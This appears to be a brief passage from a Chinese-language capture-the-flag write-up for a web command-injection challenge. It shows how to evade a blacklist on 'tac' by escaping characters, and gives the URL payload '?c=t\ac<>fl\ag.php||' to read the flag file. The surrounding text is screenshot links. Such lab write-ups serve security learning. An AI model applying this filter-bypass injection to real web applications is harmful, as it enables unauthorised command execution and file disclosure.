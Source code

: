 过滤了tac，我们用t\ac来绕过

先查看flag位置

![image-20240120132902777](照片/image-20240120132902777.png)

构建命令

```
?c=t\ac<>fl\ag.php||
```

得到flag

![image-20240120132946290](照片/image-20240120132946290.png)

------

#### web52
